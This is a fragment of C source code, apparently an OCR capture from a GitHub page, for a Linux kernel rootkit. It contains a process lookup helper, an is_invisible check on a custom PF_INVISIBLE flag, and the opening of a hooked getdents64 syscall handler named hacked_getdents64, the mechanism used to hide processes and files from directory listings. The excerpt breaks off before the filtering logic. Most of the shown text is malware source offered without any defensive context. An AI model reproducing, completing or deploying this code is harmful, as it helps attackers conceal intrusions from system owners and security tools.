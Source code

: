 ```c
	        */
	      for_each_process(target_process)
	      {
        	if (target_process->pid == pid)
        	{
          		return target_process;
	        }
      	      }
	      return NULL;
	}

    static int is_invisible(pid_t pid)
    {
      struct task_struct *task;

      if (!pid)
      {
        return 0;
      }

      task = find_task(pid);
      if (!task)
      {
        return 0;
      }
      if (task->flags & PF_INVISIBLE)
      {
        return 1;
      }
      return 0;
    }

    static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs)
    {
      /* Dependent registers:
      * rax: contains syscall ids = 0xd9
      * rdi: which contains the file descriptor = unsigned int fd
      * rsi: which contains the passed arguments = struct linux_dirent64 __user *dirent; "__user" => this pointer resides in user space
      * rdx: length of the passed argument(or string) = unsigned int count
      */

      // Storing file descriptor to uniquely identifies an open file 
      int fd = (int) pt_regs->di;

      /* User space related variable
      * Storing the name of the file in a directory passed from user space via "si" register
      */
      struct linux_dirent *dirent = (struct linux_dirent *) pt_regs->si;

      int ret = orig_getdents64(pt_regs), err;

      // kernel space related variables
      unsigned short proc = 0;
      unsigned long offset = 0;
      struct linux_dirent64 *dir, *kdirent, *prev = NULL;

      //For storing the directory inode value
      struct inode *d_inode;

      if (ret <= 0)
        return ret;

```